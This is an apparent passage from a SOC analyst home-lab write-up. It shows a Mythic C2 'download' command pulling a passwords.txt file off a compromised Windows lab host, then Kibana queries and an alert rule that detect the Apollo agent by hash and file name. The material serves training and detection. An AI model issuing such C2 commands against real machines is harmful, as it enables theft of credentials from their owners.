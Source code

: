  ```bash
    - In the Mythic Web GUI, open the **Active Callback** tab.
    - In the command input field, use the following command to download the password file:
      ```bash
      download C:\Users\Administrator\Documents\passwords.txt
      ```

3. **View the Downloaded File**
    - Navigate to the **Downloads** section (represented by a paperclip icon) in the Mythic GUI.
    - You should now see the downloaded `passwords.txt` file listed there.
    - Click on the file to download it to your local machine for further analysis.

    **Screenshot** (*optional for documentation purposes*)

*You have successfully completed the process of retrieving the password file from the target machine using Mythic C2.* 

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143646.png)

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143655.png)
### Phase 6: Mythic C2 and Kibana Dashboards

**On Mythic in Active Callback:**

- Use: `download C:\Users\Administrator\Documents\passwords.txt`
- Under downloads (paperclick)
    - *You will see the file*

#### Create Alerts and Dashboards in Kibana for Mythic Telemetry

1. **Go to Elastic:**
    - **Discover**  
    - **New**
        - Query for binary: `svchost-miguel.exe`
        - Sort from old to new: You will see `2517`
        - File create from sysmon event.code 11  
        - Event code 1 = MD5 hash, to use for context
        - Input into search: `and event.code : 1`
        - *We have six documents*
        - Copy the SHA1 hash

2. **Go to virustotal.com/gui/home/search:**
    - No hashes in the database, as this is a new agent

3. **Winlog.event_data.OriginalFileName:** `Apollo.exe`

#### Let's make an alert to detect this:

- For this rule to trigger on process created:
    - In your notes save: `event.code :"1" and (winlog.event_data.Hashes: *2AD125CEC78F1462A9BF587BDD520C01F91D623B194F6A7C5794AE58C0DF5C13, IMPHASH=F34D5F2D4577ED6D9CEEC516C1F5A744* or winlog.event_data.OriginalFileName : "Apollo.exe")`
    - Save your alert
    - Name: `Mythic-Apollo-Process-Create`

#### Create a new rule:

- **Security**
- **Custom Query**
    - Paste in the query we just searched for
    - **Required Fields:**
        - `timestamp`
  ```
